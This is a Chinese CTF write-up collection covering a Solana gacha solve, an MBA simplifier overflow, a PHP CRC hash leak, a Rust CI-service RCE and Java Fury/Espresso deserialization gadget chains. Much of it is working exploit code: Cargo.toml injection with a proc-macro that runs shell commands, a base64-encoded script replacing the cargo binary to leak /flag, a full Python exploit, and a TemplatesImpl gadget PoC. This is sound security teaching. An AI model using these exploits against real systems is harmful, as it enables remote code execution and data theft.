                    user: ctx.accounts.user.to_account_info(),
                    character: ctx.accounts.character2.to_account_info(),
                    system_program: ctx.accounts.system_program.to_account_info(),
                },
            )
        )?;
        challenge::cpi::gacha(
            CpiContext::new(
                ctx.accounts.challenge.to_account_info(),
                challenge::cpi::accounts::Gacha {
                    game: ctx.accounts.game.to_account_info(),
                    player: ctx.accounts.player.to_account_info(),
                    user: ctx.accounts.user.to_account_info(),
                    character: ctx.accounts.character3.to_account_info(),
                    system_program: ctx.accounts.system_program.to_account_info(),
                },
            )
        )?;
        challenge::cpi::gacha(
            CpiContext::new(
                ctx.accounts.challenge.to_account_info(),
                challenge::cpi::accounts::Gacha {
                    game: ctx.accounts.game.to_account_info(),
                    player: ctx.accounts.player.to_account_info(),
                    user: ctx.accounts.user.to_account_info(),
                    character: ctx.accounts.character4.to_account_info(),
                    system_program: ctx.accounts.system_program.to_account_info(),
                },
            )
        )?;
        challenge::cpi::merge(
            CpiContext::new(
                ctx.accounts.challenge.to_account_info(),
                challenge::cpi::accounts::Merge {
                    player: ctx.accounts.player.to_account_info(),
                    user: ctx.accounts.user.to_account_info(),
                    character1: ctx.accounts.character2.to_account_info(),
                    character2: ctx.accounts.character0.to_account_info(),
                    system_program: ctx.accounts.system_program.to_account_info(),
                },
            ),
            2, 0
        )?;
        for _ in 0..8 {
            challenge::cpi::merge(
                CpiContext::new(
                    ctx.accounts.challenge.to_account_info(),
                    challenge::cpi::accounts::Merge {
                        player: ctx.accounts.player.to_account_info(),
                        user: ctx.accounts.user.to_account_info(),
                        character1: ctx.accounts.character0.to_account_info(),
                        character2: ctx.accounts.character0.to_account_info(),
                        system_program: ctx.accounts.system_program.to_account_info(),
                    },
                ),
                0, 1
            )?;
        }
        let rent = Rent::get()?;
        transfer(
            CpiContext::new(
                ctx.accounts.system_program.to_account_info(),
                Transfer {
                    from: ctx.accounts.user.to_account_info(),
                    to: ctx.accounts.boss.to_account_info(),
                },
            ),
            rent.minimum_balance(0),
        )?;
        Ok(())
    }
}

#[derive(Accounts)]
pub struct Initialize<'info> {
    // feel free to expand/change this as needed
    // if you change this, make sure to change framework-solve/src/main.rs accordingly

    #[account(mut)]
    pub user: Signer<'info>,

    #[account(mut)]
    pub game: UncheckedAccount<'info>,

    #[account(mut)]
    pub player: UncheckedAccount<'info>,

    #[account(mut)]
    pub character0: UncheckedAccount<'info>,
    #[account(mut)]
    pub character1: UncheckedAccount<'info>,
    #[account(mut)]
    pub character2: UncheckedAccount<'info>,
    #[account(mut)]
    pub character3: UncheckedAccount<'info>,
    #[account(mut)]
    pub character4: UncheckedAccount<'info>,
    
    #[account(mut)]
    pub boss: UncheckedAccount<'info>,

    pub challenge: Program<'info, challenge::program::Challenge>,

    pub system_program: Program<'info, System>,
}
```

#### 攻击框架

```
use anchor_lang::{InstructionData, ToAccountMetas};
use solana_program::pubkey::Pubkey;
use std::net::TcpStream;
use std::{error::Error, fs, io::prelude::*, io::BufReader, str::FromStr};
use solana_program::system_program;


fn get_line<R: Read>(reader: &mut BufReader<R>) -> Result<String, Box<dyn Error>> {
    let mut line = String::new();
    reader.read_line(&mut line)?;
    let ret = line
        .split(':')
        .nth(1)
        .ok_or("invalid input")?
        .trim()
        .to_string();
    Ok(ret)
}


fn main() -> Result<(), Box<dyn Error>> {
    let mut stream = TcpStream::connect("127.0.0.1:5000")?;
    let mut reader = BufReader::new(stream.try_clone().unwrap());

    let mut line = String::new();
    
    let so_data = fs::read("./solve/target/deploy/solve.so")?;
    
    reader.read_line(&mut line)?;
    writeln!(stream, "{}", solve::ID)?;
    reader.read_line(&mut line)?;
    writeln!(stream, "{}", so_data.len())?;
    stream.write_all(&so_data)?;
    
    let chall_id = challenge::ID;
    
    let user     = Pubkey::from_str(&get_line(&mut reader)?)?;
    let game     = Pubkey::from_str(&get_line(&mut reader)?)?;
    
    println!("");
    println!("user       : {}", user);
    println!("game       : {}", game);
    println!("");
    
    let (player, _) = Pubkey::find_program_address(&[b"player", user.as_ref()], &chall_id);
    let characters: Vec<Pubkey> = (0_usize..10).map(|idx| Pubkey::find_program_address(&[b"character", user.as_ref(), &idx.to_le_bytes()], &chall_id).0).collect();
    let (boss, _) = Pubkey::find_program_address(&[b"boss", &0_usize.to_le_bytes()], &chall_id);
    
    let ix = solve::instruction::Initialize {};
    let data = ix.data();
    let ix_accounts = solve::accounts::Initialize {
        user,
        game,
        player,
        character0: characters[0],
        character1: characters[1],
        character2: characters[2],
        character3: characters[3],
        character4: characters[4],
        boss,
        challenge: chall_id,
        system_program: system_program::id(),
    };
    
    let metas = ix_accounts.to_account_metas(None);
    
    // if you don't know what this is doing, look at server code and also sol-ctf-framework read_instruction:
    // https://github.com/otter-sec/sol-ctf-framework/blob/rewrite-v2/src/lib.rs#L237
    reader.read_line(&mut line)?;
    writeln!(stream, "{}", metas.len())?;
    for meta in metas {
        let mut meta_str = String::new();
        meta_str.push('m');
        if meta.is_writable {
            meta_str.push('w');
        }
        if meta.is_signer {
            meta_str.push('s');
        }
        meta_str.push(' ');
        meta_str.push_str(&meta.pubkey.to_string());
        writeln!(stream, "{}", meta_str)?;
        stream.flush()?;
    }
    
    reader.read_line(&mut line)?;
    writeln!(stream, "{}", data.len())?;
    stream.write_all(&data)?;
    
    stream.flush()?;
    
    // choose characters
    get_line(&mut reader)?;
    writeln!(stream, "0 1 3")?;
    
    line.clear();
    while reader.read_line(&mut line)? != 0 {
        print!("{}", line);
        line.clear();
    }
    
    Ok(())
}
```

## mba

本题实现了一个基于MBA-Blast算法的简易的MBA简化器。具体的逻辑被作为一个Tactic实现在了Z3Prover的内部，并通过Z3 Python API调用。选手需要构造能够使简化过程出现错误的符合要求的表达式，提交并获得FLAG。

### 详细解析

通过阅读`mba_tactic.cpp`可以发现，MBA中每一项的系数是通过`coeff_type`存放的（即`long long`类型）。然而在`construct_simplified_mba`函数中计算`basis_comb`时使用的类型却是`int`。由于在`server.py`中，使用的所有BV均属于64-bit BV sort，会导致简化过程存在整数溢出问题。 由于给定的Lark Parser的规则不允许多于8位的整数，要触发整数溢出问题必须通过多个term计算触发。同时注意到题目要求给定的MBA必须拥有15个及以下的term数，所以必须选用basis vector中包含2或-2的bool function。能够满足要求的一个表达式为：

```
99999999*~(x^y)+99999999*~(x^y)+99999999*~(x^y)+99999999*~(x^y)+99999999*~(x^y)+99999999*~(x^y)+99999999*~(x^y)+99999999*~(x^y)+99999999*~(x^y)+99999999*~(x^y)+99999999*~(x^y)+99999999*~(x^y)
```

## 哈基游

<http://127.0.0.1:8888/?c=int$c&algo=crc32&file=/flag&h=1>

可以在错误信息中泄露hash\_file的结果。

通过阅读php官方文档可以得知，`hash\_file`函数支持多种哈希算法，而其中包含以下几种算法：

```
...
    [30] => crc32
    [31] => crc32b
    [32] => crc32c
...
```

众所周知`CRC`并不是一个安全的哈希算法。在给定足够多的不同CRC校验码的情况下，可以恢复出校验前的内容。

观察到flag中未知字节一共15个，并且有3组不同的CRC，需要进行`2^(3\*8)`次的爆破，从中恢复flag。

poc:

<https://gist.github.com/marche147/abc48861e1d75cb15553c80bd5a915a8>

# Web

## Rust Action

题目模仿 GitHub Action 的功能编写了一个简化版的 Rust Action

主要路由如下

```
/jobs/list: 列出所有 Job
/jobs/upload: 上传 Job zip 压缩包
/jobs/{id}/run: 运行指定 Job
/artifacts/list: 列出所有 Artifact
/artifacts/{id}: 下载指定 Artifact
```

通过编写适当的 workflow 可以构建 Rust 项目并下载 binary (artifact)

根据 model.rs 内的各种结构体, 不难得出 workflow.yaml 的格式如下

```
job:
  name: hello
  mode: release
  config:
    name: hello_world
    version: 0.1.0
    edition: 2021
    description: hello world application
  files:
    - main.rs
  run: cargo build --release
```

Job 目录结构示例

```
test_job
├── files
│   └── main.rs
└── workflow.yaml
```

程序配置文件 config.toml

```
[app]
host = "0.0.0.0"
port = 8000

[workflow]
name = "workflow.yaml"
work_dir = "./files"

[workflow.jobs]
enable = true
path = "./jobs"

[workflow.artifacts]
enable = false
path = "./artifacts"

[workflow.security]
files = ["main.rs"]
runs = ["cargo build", "cargo build --release"]
```

题目的整体思路是**利用 Rust 的过程宏在编译期间执行代码**

在 `route::upload_job` 函数内, 直接使用了 format 宏格式化 Cargo.toml 的内容

```
let cargo_toml = format!(
    include_str!("../templates/Cargo.toml.tpl"),
    name = job.config.name,
    version = job.config.version,
    edition = job.config.edition,
    description = job.config.description,
);
fs::write(temp_dir.path().join("Cargo.toml"), cargo_toml).await?;
```

Cargo.toml.tpl

```
[package]
build = false
publish = false

name = "{name}"
version = "{version}"
edition = "{edition}"
description = "{description}"
```

format 宏并不会对字符串进行转义, 因此这里存在配置文件注入的问题, 我们可以在 workflow.yaml 内构造特定 payload 向 Cargo.toml 内添加其它参数

```
job:
  name: exploit job
  mode: release
  config:
    name: exploit
    version: 0.1.0
    edition: 2021
    description: |-
      "
      [lib]
      proc-macro = true
      #
  files:
    - main.rs
  run: cargo build --release
```

如上的 workflow 利用了 description 字段向 Cargo.toml 添加了与过程宏相关的配置, 允许我们在项目中定义和使用过程宏

但接下来存在一个问题: 配置文件中的 workflow.security.files 字段仅允许 Job 在运行时获取 main.rs 这一个文件

```
for file in &job.files {
    if !CONFIG.workflow.security.files.contains(file) {
        return Err(AppError(anyhow::anyhow!("Invalid file")));
    }

    let src = job_dir.join(&CONFIG.workflow.work_dir).join(file);
    let dst = temp_dir.path().join("src").join(file);

    if src.is_file() {
        fs::copy(src, dst).await?;
    }
}
```

而过程宏的定义和使用必须分开成两个文件, 例如在 lib.rs 内定义, 在 main.rs 内使用, 不能仅在 main.rs 一个文件内既定义又使用, 这会导致编译不通过

并且 `/jobs/upload` 路由在解压 Job zip 之后会调用 `validate_job` 函数验证 Job 目录结构是否符合如下条件

1. 仅包含 workflow.yaml 文件和 files 目录
2. files 目录下仅允许存在 main.rs 文件, 且不允许存在子目录或软链接

这导致无法在 zip 包内添加 lib.rs, Cargo.toml 或者其它任何文件

```
pub fn validate_job(target_dir: &Path) -> Result<(), anyhow::Error> {
    for entry in target_dir.read_dir()? {
        let entry = entry?;
        let file_name = entry.file_name().to_str().unwrap().to_string();

        if file_name != CONFIG.workflow.name && file_name != CONFIG.workflow.work_dir {
            return Err(anyhow::anyhow!("Unexpected file"));
        }
    }

    let workflow_file = target_dir.join(&CONFIG.workflow.name);
    let work_dir = target_dir.join(&CONFIG.workflow.work_dir);

    if !workflow_file.is_file() || !work_dir.is_dir() {
        return Err(anyhow::anyhow!(
            "Neither workflow file nor work dir was found"
        ));
    }

    for entry in work_dir.read_dir()? {
        let entry = entry?;
        let file_type = entry.file_type()?;

        if file_type.is_dir() {
            return Err(anyhow::anyhow!("Sub dir is not allowed in work dir"));
        } else if file_type.is_symlink() {
            return Err(anyhow::anyhow!("Symlink is not allowed in work dir"));
        } else {
            let file_name = entry.file_name().to_str().unwrap().to_string();

            if !CONFIG.workflow.security.files.contains(&file_name) {
                return Err(anyhow::anyhow!("Forbidden file"));
            }
        }
    }

    Ok(())
}
```

解决办法是上传两个不同的 Job, 然后利用 Cargo.toml 的 `lib.path` 字段跨目录引用另一个 Job 内的 main.rs 作为 library

因为 `lib.path` 并不会对路径进行验证, 允许我们通过 `../../../path/to/main.rs` 的方式进行目录穿越

(另外 `lib.path` 对文件后缀也没有验证, 因此也可以使用形如 `../../../path/to/image.jpg` 格式的路径)

我们可构造两个 Job: A 和 B

Job A 的 workflow.yaml 和 main.rs

```
job:
  name: exploit job a
  mode: release
  config:
    name: exploit_a
    version: 0.1.0
    edition: 2021
    description: exploit a
  files:
    - main.rs
  run: cargo build --release
```

```
use proc_macro::TokenStream;
use std::process::Command;

#[proc_macro]
pub fn some_macro(_item: TokenStream) -> TokenStream {
    let output = Command::new("/bin/bash")
        .args(&["-c", "/readflag"])
        .output()
        .unwrap()
        .stdout;

    let s = String::from_utf8(output).unwrap();

    format!(
        "fn some_function() -> String {{ let s = "{}"; return s.to_string(); }}",
        s
    )
    .parse()
    .unwrap()
}
```

在上传 Job A 之后拿到 Job ID, 替换到 Job B 的 `lib.path` 内

Job B 的 workflow.yaml 和 main.rs

```
job:
  name: exploit job b
  mode: release
  config:
    name: exploit_b
    version: 0.1.0
    edition: 2021
    description: |-
      "
      [lib]
      proc-macro = true
      path = "../../../../../../app/jobs/0755e445-9ca5-45d4-a7ac-04ab16edda0c/files/main.rs"
      #
  files:
    - main.rs
  run: cargo build --release
```

```
use exploit_b::some_macro;

fn main() {
    some_macro!();
    println!("{}", some_function());
    println!("hello world");
}
```

之后运行 Job B 即可实现 RCE

不过因为 config.toml 内关闭了 artifacts 功能, 这意味着我们只能执行 Job, 但是不能下载构建好的 artifact, 也就无法拿到执行命令的回显

同时题目环境不出网, 不能直接反弹 shell, 因此需要找到其它方法带出 flag 的内容

注意到 `/jobs/{id}/run` 路由会在 Job 运行完毕后判断 status, 如果不为 success 则会返回 exit code

```
if status.success() {
    // ......

    Ok(format!("Run Job {} successfully", id))
} else {
    Err(AppError(anyhow::anyhow!(
        "Run Job {} failed with exit code: {}",
        id,
        status.code().unwrap()
    )))
}
```

同时结合题目所用的 Docker 镜像, 发现 cargo 命令和其所在目录的权限都为 777



因此可以考虑覆盖 cargo 命令, 然后依次将 flag 的每一个字符转换为 ASCII 码作为 exit code 返回

shell 脚本如下

```
#!/bin/sh

STATE="/tmp/state.txt"

if [ ! -f "$STATE" ]; then
    echo 0 > "$STATE"
fi

FLAG=$(cat /flag)
IDX=$(cat "$STATE")
CHAR=$(echo "$FLAG" | cut -c$((IDX + 1)))

if [ -z "$CHAR" ]; then
    exit 255
fi

ASCII=$(printf "%d" "'$CHAR")
NEXT_IDX=$((IDX + 1))

echo "$NEXT_IDX" > "$STATE"
exit $ASCII
```

执行如下命令替换 cargo

```
chmod 777 /flag
mv /usr/local/cargo/bin/cargo /usr/local/cargo/bin/cargo.bak
echo IyEvYmluL3NoCgpTVEFURT0iL3RtcC9zdGF0ZS50eHQiCgppZiBbICEgLWYgIiRTVEFURSIgXTsgdGhlbgogICAgZWNobyAwID4gIiRTVEFURSIKZmkKCkZMQUc9JChjYXQgL2ZsYWcpCklEWD0kKGNhdCAiJFNUQVRFIikKQ0hBUj0kKGVjaG8gIiRGTEFHIiB8IGN1dCAtYyQoKElEWCArIDEpKSkKCmlmIFsgLXogIiRDSEFSIiBdOyB0aGVuCiAgICBleGl0IDI1NQpmaQoKQVNDSUk9JChwcmludGYgIiVkIiAiJyRDSEFSIikKTkVYVF9JRFg9JCgoSURYICsgMSkpCgplY2hvICIkTkVYVF9JRFgiID4gIiRTVEFURSIKZXhpdCAkQVNDSUk= | base64 -d > /usr/local/cargo/bin/cargo
chmod 755 /usr/local/cargo/bin/cargo
```

在 Job 运行完成之后, 后续再次运行任何 Job 时就会调用我们自己的 cargo 命令, 然后会依次将 flag 的每一位转换成 ASCII 码作为 exit code 输出, 这样多运行几次 Job 就能拿到 flag 了

最终 exploit 如下

```
import requests
import zipfile
import re
import io

def create_zip(files):
    buffer = io.BytesIO()
    with zipfile.ZipFile(buffer, 'w') as zf:
        for name, content in files.items():
            zf.writestr(name, content)
    return buffer.getvalue()

workflow_a = '''job:
  name: exploit job a
  mode: release
  config:
    name: exploit_a
    version: 0.1.0
    edition: 2021
    description: exploit a
  files:
    - main.rs
  run: cargo build --release
'''

workflow_b = '''job:
  name: exploit job b
  mode: release
  config:
    name: exploit_b
    version: 0.1.0
    edition: 2021
    description: |-
      "
      [lib]
      proc-macro = true
      path = "../../../../../../app/jobs/{}/files/main.rs"
      #
  files:
    - main.rs
  run: cargo build --release
'''

main_rs_a = r'''use std::process::Command;

use proc_macro::TokenStream;

const CMD: &str = "
chmod 777 /flag
mv /usr/local/cargo/bin/cargo /usr/local/cargo/bin/cargo.bak
echo IyEvYmluL3NoCgpTVEFURT0iL3RtcC9zdGF0ZS50eHQiCgppZiBbICEgLWYgIiRTVEFURSIgXTsgdGhlbgogICAgZWNobyAwID4gIiRTVEFURSIKZmkKCkZMQUc9JChjYXQgL2ZsYWcpCklEWD0kKGNhdCAiJFNUQVRFIikKQ0hBUj0kKGVjaG8gIiRGTEFHIiB8IGN1dCAtYyQoKElEWCArIDEpKSkKCmlmIFsgLXogIiRDSEFSIiBdOyB0aGVuCiAgICBleGl0IDI1NQpmaQoKQVNDSUk9JChwcmludGYgIiVkIiAiJyRDSEFSIikKTkVYVF9JRFg9JCgoSURYICsgMSkpCgplY2hvICIkTkVYVF9JRFgiID4gIiRTVEFURSIKZXhpdCAkQVNDSUk= | base64 -d > /usr/local/cargo/bin/cargo
chmod 755 /usr/local/cargo/bin/cargo
";

#[proc_macro]
pub fn some_macro(_item: TokenStream) -> TokenStream {
    let output = Command::new("bash")
        .args(&["-c", CMD ])
        .output()
        .unwrap()
        .stdout;

    let s = String::from_utf8(output).unwrap();

    format!(
        "fn some_function() -> String {{ let s = "{}"; return s.to_string(); }}",
        s
    )
    .parse()
    .unwrap()
}
'''

main_rs_b = r'''use exploit_b::some_macro;

fn main() {
    some_macro!();
    println!("{}", some_function());
    println!("hello world");
}
'''

url = 'http://127.0.0.1:8000'

zip_a = create_zip({
    'workflow.yaml': workflow_a,
    'files/main.rs': main_rs_a,
})

resp = requests.post(url + '/jobs/upload', files={'file': ('exploit_a.zip', zip_a)})
job_id_a = re.findall(r'Create Job (.*)? successfully', resp.text)[0]
print(job_id_a)

zip_b = create_zip({
    'workflow.yaml': workflow_b.format(job_id_a),
    'files/main.rs': main_rs_b,
})

resp = requests.post(url + '/jobs/upload', files={'file': ('exploit_b.zip', zip_b)})
job_id_b = re.findall(r'Create Job (.*)? successfully', resp.text)[0]
print(job_id_b)

resp = requests.post(url + '/jobs/{}/run'.format(job_id_b))
print(resp.text)

flag = ''

while True:
    resp = requests.post(url + '/jobs/{}/run'.format(job_id_b))
    c = int(re.findall(r'exit code: (.*)?', resp.text)[0])

    if c == 255:
        break

    flag += chr(c)
    print(flag)
```

## Jtools

发现题目只有一个路由存在fury反序列化

对比官方的fury黑名单是多了一些内容的

通过审计发现com.feilong.core.util.comparator.PropertyComparator的compare方法可以触发getter调用，然后利用动态代理触发MapProxy的invoke，到达BeanConverter的jdk二次反序列化点绕过黑名单

这里的jdk反序列化直接利用

```
PriorityQueue.readObject()
PropertyComparator.compare()
TemplatesImpl.getOutputProperties()
...加载自定义字节码
```

poc

```
package com.exp;

import cn.hutool.core.map.MapProxy;
import cn.hutool.core.util.ReflectUtil;
import cn.hutool.core.util.SerializeUtil;
import com.feilong.core.util.comparator.PropertyComparator;
import com.feilong.lib.digester3.ObjectCreationFactory;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.fury.Fury;
import org.apache.fury.config.Language;

import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
import java.util.PriorityQueue;


public class Main {

    static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field declaredField = obj.getClass().getDeclaredField(fieldName);
        declaredField.setAccessible(true);
        declaredField.set(obj, value);
    }


    public static void main(String[] args) throws Exception {
        ///templates

        InputStream inputStream = Main.class.getResourceAsStream("Evil.class");
        byte[]   bytes       = new byte[inputStream.available()];
        inputStream.read(bytes);

        TemplatesImpl tmpl      = new TemplatesImpl();
        Field    bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(tmpl, new byte[][]{bytes});
        Field name = TemplatesImpl.class.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmpl, "hello");


        TemplatesImpl tmpl1      = new TemplatesImpl();
        Field    bytecodes1 = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes1.setAccessible(true);
        bytecodes1.set(tmpl1, new byte[][]{bytes});
        Field name1 = TemplatesImpl.class.getDeclaredField("_name");
        name1.setAccessible(true);
        name1.set(tmpl1, "hello2");
        ///templates
        String prop = "digester";
        PropertyComparator propertyComparator = new PropertyComparator(prop);
        Fury fury = Fury.builder().withLanguage(Language.JAVA)
                .requireClassRegistration(false)
                .build();
        ////jdk

        Object templatesImpl1 = tmpl1;
        Object templatesImpl = tmpl;

        PropertyComparator propertyComparator1 = new PropertyComparator("outputProperties");

        PriorityQueue priorityQueue1 = new PriorityQueue(2, propertyComparator1);
        ReflectUtil.setFieldValue(priorityQueue1, "size", "2");
        Object[] objectsjdk = {templatesImpl1, templatesImpl};
        setFieldValue(priorityQueue1, "queue", objectsjdk);
        /////jdk

        byte[] data = SerializeUtil.serialize(priorityQueue1);

        Map hashmap = new HashMap();
        hashmap.put(prop, data);

        MapProxy mapProxy = new MapProxy(hashmap);
        ObjectCreationFactory  test = (ObjectCreationFactory) Proxy.newProxyInstance(ObjectCreationFactory.class.getClassLoader(), new Class[]{ObjectCreationFactory.class}, mapProxy);
        ObjectCreationFactory  test1 = (ObjectCreationFactory) Proxy.newProxyInstance(ObjectCreationFactory.class.getClassLoader(), new Class[]{ObjectCreationFactory.class}, mapProxy);


        PriorityQueue priorityQueue = new PriorityQueue(2, propertyComparator);
        ReflectUtil.setFieldValue(priorityQueue, "size", "2");
        Object[] objects = {test, test1};
        setFieldValue(priorityQueue, "queue", objects);

        byte[] serialize = fury.serialize(priorityQueue);
        System.out.println(Base64.getEncoder().encodeToString(serialize));

    }
}
```

题目不出网，将flag写入/tmp/desc.txt回显

## Espresso Coffee

> 题目要求选手基于 GraalVM Espresso JDK Continuation API 的功能特性挖掘出一条 Only JDK Gadget

整个程序的代码非常简单, 仅使用 JDK 自带的 HttpServer 启动了一个 Web 服务器以接收反序列化请求

Jar 包内不包含其它任何第三方依赖 (pom.xml 中的 continuations 依赖实际上在运行时由 Espresso JDK 自动提供)

```
package challenge;

import com.sun.net.httpserver.HttpServer;
import org.graalvm.continuations.Continuation;

import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.net.InetSocketAddress;

public class Web {
    public static void main(String[] args) throws Exception {
        HttpServer server = HttpServer.create(new InetSocketAddress(8000), 0);

        server.createContext("/", exchange -> {
            byte[] content = Web.class.getResourceAsStream("/index.html").readAllBytes();

            exchange.sendResponseHeaders(200, 0);
            exchange.getResponseBody().write(content);
            exchange.close();
        });

        server.createContext("/coffee", exchange -> {
            byte[] data = exchange.getRequestBody().readAllBytes();

            Continuation state = (Continuation) deserialize(data);
            state.resume();

            exchange.sendResponseHeaders(200, 0);
            exchange.close();
        });

        server.start();
    }

    public static Object deserialize(byte[] arr) {
        try (ObjectInputStream input = new ObjectInputStream(new ByteArrayInputStream(arr))){
            return input.readObject();
        } catch (IOException | ClassNotFoundException e) {
            return null;
        }
    }
}
```

唯一不同的点在于这道题使用了 GraalVM Espresso JDK, 下载地址如下

```
https://gds.oracle.com/download/espresso/archive/espresso-java21-24.1.1-linux-amd64.tar.gz
https://gds.oracle.com/download/espresso/archive/espresso-java21-24.1.1-linux-aarch64.tar.gz
https://gds.oracle.com/download/espresso/archive/espresso-java21-24.1.1-macos-amd64.tar.gz
https://gds.oracle.com/download/espresso/archive/espresso-java21-24.1.1-macos-aarch64.tar.gz
https://gds.oracle.com/download/espresso/archive/espresso-java21-24.1.1-windows-amd64.zip
```

GraalVM Espresso 简单来说就是 GraalVM 对 JVM 规范的一种实现, 类似于众所周知的 HotSpot 虚拟机

<https://www.graalvm.org/latest/reference-manual/espresso/>

<https://github.com/oracle/graal/blob/master/espresso/README.md>

Espresso JDK 提供了 Continuation API, 用于保存和恢复程序运行时的调用栈

<https://github.com/oracle/graal/blob/master/espresso/docs/continuations.md>

<https://github.com/oracle/graal/blob/master/espresso/docs/serialization.md>

<https://github.com/oracle/graal/blob/master/espresso/docs/generators.md>

Continuation API 有两种使用方法: ContinuationEntryPoint 和 Generator, 分别对应 Low Level 和 High Level 两个不同层面

以 ContinuationEntryPoint 为例

```
package exploit;

import org.graalvm.continuations.ContinuationEntryPoint;
import org.graalvm.continuations.SuspendCapability;

import java.io.Serializable;

public class Job implements ContinuationEntryPoint, Serializable {
    @Override
    public void start(SuspendCapability suspendCapability) {
        System.out.println("Continuation started");
        suspendCapability.suspend();
        System.out.println("Continuation ended");
    }
}
```

```
package exploit;

import org.graalvm.continuations.Continuation;
import util.SerializeUtil;

public class Demo {
    public static void main(String[] args) throws Throwable {
        // init classes
        Job job = new Job();
        Continuation continuation = Continuation.create(job);

        // resume continuation
        continuation.resume();

        // serialize and deserialize continuation
        System.out.println("serialize and deserialize");
        byte[] data = SerializeUtil.serialize(continuation);
        Continuation deserialized = (Continuation) SerializeUtil.deserialize(data);

        // resume the persistent continuation
        deserialized.resume();
    }
}
```

输出

```
Continuation started
serialize and deserialize
Continuation ended
```

题目的出题思路来源于官方文档的一句话

> Deserializing a continuation supplied by an attacker will allow complete takeover of the JVM. Only resume continuations you persisted yourself!

我们先重点关注 Continuation API 的源码实现部分

`org.graalvm.continuations.Continuation` 本身是一个接口, 它的实现位于 `org.graalvm.continuations.ContinuationImpl`

下面是 ContinuationImpl 类的 Javadoc, 描述了在 suspend 和 resume 的时候 JVM 调用栈的变化过程

```
/**
 * Implementation of the {@link Continuation} class.
 *
 * <h1>Suspend</h1>
 *
 * <p>
 * The stack of a resume/suspend cycle has this form:
 *
 * <h2>Suspend</h2>
 *
 * <pre>
 *     .                                .
 *     .                                .
 *     +--------------------------------+
 *     |                                |
 *     |    ContinuationImpl.resume()   |
 *     |                                |
 *     +--------------------------------+
 *     |                                |
 *     |    ContinuationImpl.start0()   | <-- For the first resume
 *     |            OR                  |
 *     |    ContinuationImpl.resume0()  | <-- For continuations that have been suspended at least once before.
 *     |                                |
 *     |================================|
 *     |                                |
 *     |    VM code                     |
 *     |                                |
 *     |================================| <--+
 *     |                                |    |
 *     |    ContinuationImpl.run()      |    |
 *     |                                |    |
 *     |--------------------------------|    |
 *     |    EntryPoint.start()          |    |
 *     |--------------------------------|    |
 *     |    Java Frame                  |    |
 *     |--------------------------------|    |
 *     |    Java Frame                  |    |
 *     +--------------------------------+    |
 *     .                                .    |
 *     .        ...                     .     \__ Continuation frames to be recorded
 *     .                                .     /
 *     +--------------------------------+    |
 *     |    Java Frame                  |    |
 *     |--------------------------------|    |
 *     |                                |    |
 *     |    ContinuationImpl.suspend()  |    |
 *     |                                |    |
 *     |--------------------------------| <--+
 *     |                                |
 *     |    ContinuationImpl.suspend0() |
 *     |                                |
 *     |================================|
 *     |                                |
 *     |    VM Code                     |
 *     |                                |
 *     +--------------------------------+
 * </pre>
 *
 * <p>
 * Recorded frame may not:
 * <ul>
 * <li>Be Non-Java frames (in particular, no native method), except for
 * {@link ContinuationImpl#resume0()} / {@link ContinuationImpl#start0()} and
 * {@link ContinuationImpl#suspend0()}.</li>
 * <li>Hold any lock (neither a monitor, nor any kind of standard lock from
 * {@link java.util.concurrent}).</li>
 * </ul>
 *
 * After suspension, the stack will be the following, and so without any java-side observable frame
 * popping or bytecode execution:
 * 
 * <pre>
 *     .                               .
 *     .                               .
 *     +-------------------------------+
 *     |                               |
 *     |    ContinuationImpl.resume()  |
 *     |                               |
 *     +-------------------------------+
 * </pre>
 *
 * Control is then returned to the caller.
 *
 * <h2>Resume</h2>
 *
 * Resuming takes a stack of the form
 *
 * <pre>
 *     .                                .
 *     .                                .
 *     +--------------------------------+
 *     |                                |
 *     |    ContinuationImpl.resume()   |
 *     |                                |
 *     +--------------------------------+
 *     |                                |
 *     |    ContinuationImpl.resume0()  |
 *     |                                |
 *     |================================|
 *     |                                |
 *     |    VM code                     |
 *     |                                |
 *     +================================+
 * </pre>
 *
 * Back to
 *
 * <pre>
 *     .                                .
 *     .                                .
 *     +--------------------------------+
 *     |                                |
 *     |    ContinuationImpl.resume()   |
 *     |                                |
 *     +--------------------------------+
 *     |                                |
 *     |    ContinuationImpl.resume0()  |
 *     |                                |
 *     |================================|
 *     |                                |
 *     |    VM code                     |
 *     |                                |
 *     |================================| <--+
 *     |                                |    |
 *     |    ContinuationImpl.run()      |    |
 *     |                                |    |
 *     |--------------------------------|    |
 *     |    EntryPoint.start()          |    |
 *     |--------------------------------|    |
 *     |    Java Frame                  |    |
 *     |--------------------------------|    |
 *     |    Java Frame                  |    |
 *     +--------------------------------+    |
 *     .                                .    |
 *     .        ...                     .     \__ Recorded frames
 *     .                                .     /
 *     +--------------------------------+    |
 *     |    Java Frame                  |    |
 *     |--------------------------------|    |
 *     |                                |    |
 *     |    ContinuationImpl.suspend()  |    |
 *     |                                |    |
 *     +--------------------------------+ <--+
 * </pre>
 *
 * Then, control is handed back to {@link #suspend()}, which can then continue and complete
 * normally, effectively allowing to resume execution in the caller of {@link #suspend()}
 *
 * <h1>Record</h1>
 *
 * <p>
 * The recorded Java Frames are handled internally by the VM, and only exposed to the Java world
 * when {@link #ensureMaterialized()} is called, at which point a {@link FrameRecord Java
 * representation} of the stack record is stored in {@link #stackFrameHead}, and the VM may discard
 * its own internal record.
 * 
 * <p>
 * This Java record can then be used to serialize the continuation. Note that the contents of the
 * Java record is VM-dependent, and no assumptions should be made of its contents.
 *
 * <p>
 * The Java record can be brought back to the VM internals through {@link #ensureDematerialized()}.
 * Sanity checks may be performed to ensure the VM can recover from these frames.
 */
```

suspend 时会调用到 `org.graalvm.continuations.ContinuationImpl#trySuspend`



最终调用到 suspend0 native 方法, 主要是一些 check

<https://github.com/oracle/graal/blob/47d997e14c7581136fe01e68dda0f606a7941fde/espresso/src/com.oracle.truffle.espresso/src/com/oracle/truffle/espresso/substitutions/Target_org_graalvm_continuations_ContinuationImpl.java#L49>

之后需要将 Continuation 进行序列化, 因此会调用 `org.graalvm.continuations.ContinuationImpl#writeObjectExternal`



其中的 ensureMaterialized 会调用到 materialize0 native 方法, 将当前调用栈保存至 stackFrameHead 链表

